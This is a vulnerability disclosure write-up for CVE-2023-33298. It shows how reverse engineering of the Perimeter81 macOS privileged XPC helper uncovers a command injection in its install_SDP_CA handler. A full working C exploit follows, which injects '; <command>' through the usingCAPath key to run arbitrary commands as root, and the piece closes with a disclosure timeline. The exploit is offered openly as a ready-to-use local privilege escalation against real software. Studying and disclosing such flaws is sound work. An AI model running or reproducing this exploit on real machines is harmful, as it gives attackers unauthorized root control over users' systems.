# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.



We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.



From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.



Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.



Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.



Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.



We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 



We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.



If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 



Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.





So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```



# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.
